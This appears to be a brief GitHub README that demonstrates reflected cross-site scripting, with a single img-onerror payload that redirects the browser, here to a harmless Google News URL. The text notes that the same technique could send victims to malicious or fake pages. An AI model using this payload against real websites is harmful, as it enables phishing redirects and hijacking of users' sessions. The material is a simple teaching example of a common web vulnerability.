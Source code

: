 # xss
Just a simple example of xss on a vulnerable website, in the example below, 
when the link is accessed, it is possible to redirect the person to a malicious page or even a fake page.

<h2>Used payload:</h2>
<code>&lt;img src="x"onerror=window.location="https://news.google.com/topstories?hl=pt-PT&gl=PT&ceid=PT:pt-150"&gt;
</code>

<h2>Demonstration : </h2>
<video></video>





